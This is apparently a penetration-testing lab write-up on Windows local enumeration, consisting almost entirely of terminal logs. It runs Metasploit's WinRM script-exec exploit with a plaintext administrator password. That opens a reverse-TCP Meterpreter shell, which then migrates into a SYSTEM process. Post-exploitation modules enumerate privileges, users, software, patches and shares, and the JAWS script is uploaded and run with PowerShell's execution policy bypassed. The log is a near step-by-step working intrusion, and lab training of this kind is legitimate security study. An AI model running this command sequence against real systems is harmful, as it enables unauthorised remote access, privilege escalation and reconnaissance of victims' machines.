

# Automating Windows Local Enumeratio

<figure><figcaption></figcaption></figure>

```sh
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-17 13:18 IST
Nmap scan report for 10.5.29.254
Host is up (0.0020s latency).

PORT     STATE SERVICE VERSION
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

```sh
msf6 > search winrm

Matching Modules
================

   #  Name                                        Disclosure Date  Rank    Check  Description
   -  ----                                        ---------------  ----    -----  -----------
   0  auxiliary/scanner/winrm/winrm_auth_methods                   normal  No     WinRM Authentication Method Detection
   1  auxiliary/scanner/winrm/winrm_cmd                            normal  No     WinRM Command Runner
   2  auxiliary/scanner/winrm/winrm_login                          normal  No     WinRM Login Utility
   3  auxiliary/scanner/winrm/winrm_wql                            normal  No     WinRM WQL Query Runner
   4  exploit/windows/winrm/winrm_script_exec     2012-11-01       manual  No     WinRM Script Exec Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/winrm/winrm_script_exec

msf6 > use 4
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/winrm/winrm_script_exec) > set rhosts 10.5.29.254
rhosts => 10.5.29.254
msf6 exploit(windows/winrm/winrm_script_exec) > set username administrator
username => administrator
msf6 exploit(windows/winrm/winrm_script_exec) > set password tinkerbell
password => tinkerbell
msf6 exploit(windows/winrm/winrm_script_exec) > set force_vbs true 
force_vbs => true
msf6 exploit(windows/winrm/winrm_script_exec) > run

[*] Started reverse TCP handler on 10.10.26.2:4444 
[*] User selected the FORCE_VBS option
[*] Command Stager progress -   2.01% done (2046/101936 bytes)
[*] Command Stager progress -   4.01% done (4092/101936 bytes)
[*] Command Stager progress -   6.02% done (6138/101936 bytes)
[*] Command Stager progress -   8.03% done (8184/101936 bytes)
[*] Command Stager progress -  10.04% done (10230/101936 bytes)
[*] Command Stager progress -  12.04% done (12276/101936 bytes)
[*] Command Stager progress -  14.05% done (14322/101936 bytes)
[*] Command Stager progress -  16.06% done (16368/101936 bytes)
[*] Command Stager progress -  18.06% done (18414/101936 bytes)
[*] Command Stager progress -  20.07% done (20460/101936 bytes)
[*] Command Stager progress -  22.08% done (22506/101936 bytes)
[*] Command Stager progress -  24.09% done (24552/101936 bytes)
[*] Command Stager progress -  26.09% done (26598/101936 bytes)
[*] Command Stager progress -  28.10% done (28644/101936 bytes)
[*] Command Stager progress -  30.11% done (30690/101936 bytes)
[*] Command Stager progress -  32.11% done (32736/101936 bytes)
[*] Command Stager progress -  34.12% done (34782/101936 bytes)
[*] Command Stager progress -  36.13% done (36828/101936 bytes)
[*] Command Stager progress -  38.14% done (38874/101936 bytes)
[*] Command Stager progress -  40.14% done (40920/101936 bytes)
[*] Command Stager progress -  42.15% done (42966/101936 bytes)
[*] Command Stager progress -  44.16% done (45012/101936 bytes)
[*] Command Stager progress -  46.16% done (47058/101936 bytes)
[*] Command Stager progress -  48.17% done (49104/101936 bytes)
[*] Command Stager progress -  50.18% done (51150/101936 bytes)
[*] Command Stager progress -  52.19% done (53196/101936 bytes)
[*] Command Stager progress -  54.19% done (55242/101936 bytes)
[*] Command Stager progress -  56.20% done (57288/101936 bytes)
[*] Command Stager progress -  58.21% done (59334/101936 bytes)
[*] Command Stager progress -  60.21% done (61380/101936 bytes)
[*] Command Stager progress -  62.22% done (63426/101936 bytes)
[*] Command Stager progress -  64.23% done (65472/101936 bytes)
[*] Command Stager progress -  66.24% done (67518/101936 bytes)
[*] Command Stager progress -  68.24% done (69564/101936 bytes)
[*] Command Stager progress -  70.25% done (71610/101936 bytes)
[*] Command Stager progress -  72.26% done (73656/101936 bytes)
[*] Command Stager progress -  74.26% done (75702/101936 bytes)
[*] Command Stager progress -  76.27% done (77748/101936 bytes)
[*] Command Stager progress -  78.28% done (79794/101936 bytes)
[*] Command Stager progress -  80.29% done (81840/101936 bytes)
[*] Command Stager progress -  82.29% done (83886/101936 bytes)
[*] Command Stager progress -  84.30% done (85932/101936 bytes)
[*] Command Stager progress -  86.31% done (87978/101936 bytes)
[*] Command Stager progress -  88.31% done (90024/101936 bytes)
[*] Command Stager progress -  90.32% done (92070/101936 bytes)
[*] Command Stager progress -  92.33% done (94116/101936 bytes)
[*] Command Stager progress -  94.34% done (96162/101936 bytes)
[*] Command Stager progress -  96.34% done (98208/101936 bytes)
[*] Command Stager progress -  98.35% done (100252/101936 bytes)
[*] Sending stage (175174 bytes) to 10.5.29.254
[*] Meterpreter session 1 opened (10.10.26.2:4444 -> 10.5.29.254:49925) at 2024-01-17 13:52:59 +0530
[*] Session ID 1 (10.10.26.2:4444 -> 10.5.29.254:49925) processing InitialAutoRunScript 'post/windows/manage/priv_migrate'
[*] Current session process is diexx.exe (4912) as: SERVER\Administrator
[*] Session is Admin but not System.
[*] Will attempt to migrate to specified System level process.
[-] Could not migrate to services.exe.
[-] Could not migrate to wininit.exe.
[*] Trying svchost.exe (708)
[+] Successfully migrated to svchost.exe (708) as: NT AUTHORITY\SYSTEM
[*] nil
[*] Command Stager progress - 100.00% done (101936/101936 bytes)

meterpreter > 

```

```sh
meterpreter > show_mount 

Mounts / Drives
===============

Name  Type   Size (Total)  Size (Free)  Mapped to
----  ----   ------------  -----------  ---------
C:\   fixed  30.00 GiB     16.25 GiB    


Total mounts/drives: 1

```

```sh
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/winrm/winrm_script_exec) > search win_privs

Matching Modules
================

   #  Name                           Disclosure Date  Rank    Check  Description
   -  ----                           ---------------  ----    -----  -----------
   0  post/windows/gather/win_privs                   normal  No     Windows Gather Privileges Enumeration


Interact with a module by name or index. For example info 0, use 0 or use post/windows/gather/win_privs

msf6 exploit(windows/winrm/winrm_script_exec) > use 0
msf6 post(windows/gather/win_privs) > sessions

Active sessions
===============

  Id  Name  Type                     Information                    Connection
  --  ----  ----                     -----------                    ----------
  1         meterpreter x64/windows  SERVER\Administrator @ SERVER  10.10.26.2:4444 -> 10.5.29.254:49925 (10.5.29.254)

msf6 post(windows/gather/win_privs) > set session 1
session => 1
msf6 post(windows/gather/win_privs) > run

Current User
============

 Is Admin  Is System  Is In Local Admin Group  UAC Enabled  Foreground ID  UID
 --------  ---------  -----------------------  -----------  -------------  ---
 True      True       True                     False        1              NT AUTHORITY\SYSTEM

Windows Privileges
==================

 Name
 ----
 SeAssignPrimaryTokenPrivilege
 SeAuditPrivilege
 SeBackupPrivilege
 SeChangeNotifyPrivilege
 SeCreateGlobalPrivilege
 SeCreatePagefilePrivilege
 SeCreatePermanentPrivilege
 SeCreateSymbolicLinkPrivilege
 SeDebugPrivilege
 SeImpersonatePrivilege
 SeIncreaseBasePriorityPrivilege
 SeIncreaseQuotaPrivilege
 SeIncreaseWorkingSetPrivilege
 SeLoadDriverPrivilege
 SeLockMemoryPrivilege
 SeManageVolumePrivilege
 SeProfileSingleProcessPrivilege
 SeRestorePrivilege
 SeSecurityPrivilege
 SeShutdownPrivilege
 SeSystemEnvironmentPrivilege
 SeSystemProfilePrivilege
 SeSystemtimePrivilege
 SeTakeOwnershipPrivilege
 SeTcbPrivilege
 SeTimeZonePrivilege
 SeUndockPrivilege

[*] Post module execution completed

```

```sh
msf6 post(windows/gather/win_privs) > search enum_logged

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/windows/gather/enum_logged_on_users                   normal  No     Windows Gather Logged On User Enumeration (Registry)


Interact with a module by name or index. For example info 0, use 0 or use post/windows/gather/enum_logged_on_users

msf6 post(windows/gather/win_privs) > use 0
msf6 post(windows/gather/enum_logged_on_users) > set session 1
session => 1
msf6 post(windows/gather/enum_logged_on_users) > run

[*] Running against session 1

Current Logged Users
====================

 SID                                            User
 ---                                            ----
 S-1-5-18                                       NT AUTHORITY\SYSTEM
 S-1-5-21-1560653127-1539696675-2954027093-500  SERVER\Administrator


[+] Results saved in: /root/.msf4/loot/20240117135952_default_10.5.29.254_host.users.activ_878464.txt

Recently Logged Users
=====================

 SID                                            Profile Path
 ---                                            ------------
 S-1-5-18                                       %systemroot%\system32\config\systemprofile
 S-1-5-19                                       %systemroot%\ServiceProfiles\LocalService
 S-1-5-20                                       %systemroot%\ServiceProfiles\NetworkService
 S-1-5-21-1560653127-1539696675-2954027093-500  C:\Users\Administrator


[*] Post module execution completed

```

```sh
msf6 exploit(windows/winrm/winrm_script_exec) > search enum_applications

Matching Modules
================

   #  Name                                   Disclosure Date  Rank    Check  Description
   -  ----                                   ---------------  ----    -----  -----------
   0  post/windows/gather/enum_applications                   normal  No     Windows Gather Installed Application Enumeration


Interact with a module by name or index. For example info 0, use 0 or use post/windows/gather/enum_applications

msf6 exploit(windows/winrm/winrm_script_exec) > use 0
msf6 post(windows/gather/enum_applications) > set session 1
session => 1
msf6 post(windows/gather/enum_applications) > run

[*] Enumerating applications installed on SERVER

Installed Applications
======================

 Name                   Version
 ----                   -------
 AWS PV Drivers         8.3.4
 AWS Tools for Windows  3.15.1110
 Amazon SSM Agent       2.3.1319.0
 Amazon SSM Agent       2.3.1319.0
 aws-cfn-bootstrap      1.4.33


[+] Results stored in: /root/.msf4/loot/20240117140858_default_10.5.17.124_host.application_669828.txt
[*] Post module execution completed

```

```sh
msf6 post(windows/gather/enum_applications) > search enum_computers

Matching Modules
================

   #  Name                                Disclosure Date  Rank    Check  Description
   -  ----                                ---------------  ----    -----  -----------
   0  post/windows/gather/enum_computers                   normal  No     Windows Gather Enumerate Computers


Interact with a module by name or index. For example info 0, use 0 or use post/windows/gather/enum_computers

msf6 post(windows/gather/enum_applications) > use 0
msf6 post(windows/gather/enum_computers) > set session 1
session => 1
msf6 post(windows/gather/enum_computers) > run

[*] Running module against SERVER
[-] This host is not part of a domain.
[*] Post module execution completed

```

```sh
msf6 post(windows/gather/enum_computers) > search enum_patches

Matching Modules
================

   #  Name                              Disclosure Date  Rank    Check  Description
   -  ----                              ---------------  ----    -----  -----------
   0  post/windows/gather/enum_patches                   normal  No     Windows Gather Applied Patches


Interact with a module by name or index. For example info 0, use 0 or use post/windows/gather/enum_patches

msf6 post(windows/gather/enum_computers) > use 0
msf6 post(windows/gather/enum_patches) > set session 1
session => 1
msf6 post(windows/gather/enum_patches) > run

[*] Patch list saved to /root/.msf4/loot/20240117141221_default_10.5.17.124_enum_patches_366634.txt
[+] KB4570720 installed on 9/9/2020
[+] KB4470502 installed on 12/12/2018
[+] KB4470788 installed on 12/12/2018
[+] KB4480056 installed on 1/9/2019
[+] KB4493510 installed on 4/21/2019
[+] KB4494174 installed on 3/18/2020
[+] KB4499728 installed on 5/15/2019
[+] KB4504369 installed on 6/12/2019
[+] KB4512577 installed on 9/11/2019
[+] KB4512937 installed on 9/6/2019
[+] KB4521862 installed on 10/9/2019
[+] KB4523204 installed on 11/13/2019
[+] KB4539571 installed on 3/18/2020
[+] KB4549947 installed on 4/15/2020
[+] KB4558997 installed on 7/15/2020
[+] KB4561600 installed on 6/10/2020
[+] KB4562562 installed on 6/10/2020
[+] KB4566424 installed on 8/12/2020
[+] KB4570332 installed on 9/9/2020
[+] KB4570333 installed on 9/9/2020
[*] Post module execution completed

```

```sh
msf6 post(windows/gather/enum_patches) > search enum_shares

Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  post/windows/gather/enum_shares                   normal  No     Windows Gather SMB Share Enumeration via Registry


Interact with a module by name or index. For example info 0, use 0 or use post/windows/gather/enum_shares

msf6 post(windows/gather/enum_patches) > use 0
msf6 post(windows/gather/enum_shares) > set session 1
session => 1
msf6 post(windows/gather/enum_shares) > run

[*] Running against session 1
[*] No shares were found
[*] Post module execution completed

```

<figure><figcaption></figcaption></figure>

* open the file > raw, select all and copy.
* go to Lab, press ctrl+shift+alt to open clipboard.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

```sh
msf6 post(windows/gather/enum_shares) > sessions 1
[*] Starting interaction with 1...

meterpreter > cd C:\\
meterpreter > mkdir Temp
Creating directory: Temp
meterpreter > cd Temp 
meterpreter > upload /root/Desktop/jaws-enum.ps1
[*] uploading  : /root/Desktop/jaws-enum.ps1 -> jaws-enum.ps1
[*] Uploaded 16.58 KiB of 16.58 KiB (100.0%): /root/Desktop/jaws-enum.ps1 -> jaws-enum.ps1
[*] uploaded   : /root/Desktop/jaws-enum.ps1 -> jaws-enum.ps1
```

```sh
meterpreter > shell
Process 1696 created.
Channel 2 created.
Microsoft Windows [Version 10.0.17763.1457]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9E32-0E96

 Directory of C:\Temp

01/17/2024  08:53 AM    <DIR>          .
01/17/2024  08:53 AM    <DIR>          ..
01/17/2024  08:53 AM            16,974 jaws-enum.ps1
               1 File(s)         16,974 bytes
               2 Dir(s)  17,416,835,072 bytes free

C:\Temp>powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt

Running J.A.W.S. Enumeration
	- Gathering User Information
	- Gathering Processes, Services and Scheduled Tasks
	- Gathering Installed Software
	- Gathering File System Information
```

